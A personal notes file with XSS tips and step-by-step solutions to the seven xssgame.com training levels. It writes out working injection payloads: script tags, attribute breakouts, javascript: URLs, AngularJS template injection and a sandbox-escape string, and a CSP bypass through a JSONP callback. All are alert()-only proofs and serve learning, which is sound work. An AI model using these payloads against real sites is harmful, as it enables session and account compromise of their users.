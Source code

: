 # XSS Notes

* pretty much like sql injection but for html/js
* when DOM is updated dynamically, try using HTML5 events (`autofocus onfocus="alert()"` is a dope hack)
* Use this snippet to pause before page redirects: `window.addEventListener("beforeunload", function() { debugger; }, false)`

## xssgame.com Answers

### 1: Plain JS Foogle

A simple search tool that just displays a message that `Sorry, no results were found for <b> {{user input}} </b>`. just query for `<script>alert()</script>` and the JS will get inserted as-is
### 2: Timer

HTML has `onload="startTimer('<user input>');"`. pass in `1');alert('1` so that html looks like `onload="startTimer('1');alert('1');`

### 3: Cat Gallery

In `chooseTab()`, html is built dynamically: `html += "<img src='/static/img/cat" + name + ".jpg' />";` update url fragment with:
```
1.jpg' onload="alert()" onerror="alert()" type='/static/img/cat
```
 such that html looks like 
 
```
html += "<img src='/static/img/cat" + "1.jpg' onload="alert()" onerror="alert(123)" type='/static/img/cat" + ".jpg' />
```
* Note: This is kinda finicky - sometimes it works and sometimes the app returns an error: `You executed an alert, but the server side validation of your solution failed.`

### 4: Google Reader

the email input is a red herring, and the interstitial redirect page is where its at. the signup page's submit button redirects to `/confirm?next=welcome` and the interstitial page runs `setTimeout(() => window.location = '<user input>'`. this takes advantage of the fact that you can type `javascript:<js code>` in the address bar to run the JS: 

`{{ url }}/confirm?next=javascript:alert()`

### 5: Angular JS Foogle

Turns out this one is quite simple. Apparantly manually setting the value on a form field is an XSS attack vector in AngularJS (or if it limited to calling functions defined on `$scope`? im thinking this is unlikely and  can't get `{{query=10}}` to work, but the `$scope.alert = window.alert;` line is suspicious). So looking at the page's HTML and JS, we can see that there are 3 form fields: `query`, `utm_compaign`, and `utm_term`. the `query` field is handled by `ngModel` as opposed to manual JS, so that leaves the `utm_compaign` and `utm_term` fields - both of which accept input from query params using the same name. simply passing `{{alert()}}` as the value for a `utm_term` or `utm_campaign` param should work:

`{{ url }}/?utm_term={{alert()}}`

Not sure why a sandbox escape exploit didnt work here:
~~A quick look at the page source indicates we are using Angular v1.5.8. We can look up vulnerabilities for that version of angular and inject them appropriately. According to the PortSwigger XSS cheatsheet, we can use `{{x={'y':''.constructor.prototype};x['y'].charAt=[].join;$eval('x=alert(1)');}}`.~~

### 6: Angular JS (1.2) Foogle

playing around a bit, you can see that the form's `action` url submits to itself and gets updated with each url change. we can try the previous payload here using a `query` query param:

`{{ url }}/?query={{alert()}}`

and we see that the form url has updated:

`<form action="/f/rWKWwJGnAeyi/?query=alert()}}" ...>`

but it dropped the leading `{{` in the payload. We can try url encoding, but no dice. but if we try html escaping by looking up character references [here](https://dev.w3.org/html5/html-author/charref), we see that `&lcub;` is an escaped `{`, so we can try a new payload:

`{{ url }}/?query=&lcub;&lcub;alert()}}`

and it works!

### 7: Content Security Policy Blog

First, since this is a CSP challenge, lets check the CSP in the headers:

`content-security-policy: default-src https://www.xssgame.com/f/wmOM2q5NJnZS/ https://www.xssgame.com/static/`

By poking around, we can see that cycling through the tabs updates a `menu` query param. it also sends us back a small JSON snippet that contains the page title. the param values have trailing `=` so its a safe bet that they are b64 encoded, and if we decode them we see they are indeed. passing in a dummy value takes us to a page that says `Error, no such menu : <user input>`. if we browse the source code, we can see that the page takes the title and injects it into the page. if we try encoding `<script>alert()</script>` and passing the encoded value as the `menu` query param we get our first useful error in the dev console (Chrome):

`?menu=PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+`

> Refused to execute inline script because it violates the following Content Security Policy directive: "default-src https://www.xssgame.com/f/wmOM2q5NJnZS/ https://www.xssgame.com/static/". Either the 'unsafe-inline' keyword, a hash ('sha256-S8S/VNmXuUuoIR6OhqBqwIiIkuCxXq31hCCHAHnicV8='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.

Reading through [this article](https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d#8dc8) is helpful and gives good context of the problem to tackle. Though Scenario 6 mentions that `jsonp` endpoints can be an attack vector.. reading through the following (and the linked links) is really helpful to get a better understanding of what/how/why `jsonp` works:
* https://stackoverflow.com/questions/2067472/what-is-jsonp-and-why-was-it-created
* https://en.wikipedia.org/wiki/JSONP

it seems the `/jsonp` endpoint that serves the json snippet could be significant. We can pass a `callback=someString` query param to the `/jsonp` endpoint ro speficy the name of the callback we want the server to send back:
```
{{ url }}/jsonp?menu=cats&callback=alert

// returns: alert({"title":"Cats","pictures":["cat2.jpg","cat3.jpg"]})
```

The solution is to take advantage of the `jsonp` endpoint and the error page. if we construct a payload and leverage the endpoint to inject a script tag into the error page, we should be golden:

`<script src="jsonp?callback=alert()"></script>`

then base64 encode it and set it as the `menu` query param:

`{{ url }}/?menu=PHNjcmlwdCBzcmM9Impzb25wP2NhbGxiYWNrPWFsZXJ0KCkiPjwvc2NyaXB0Pg==`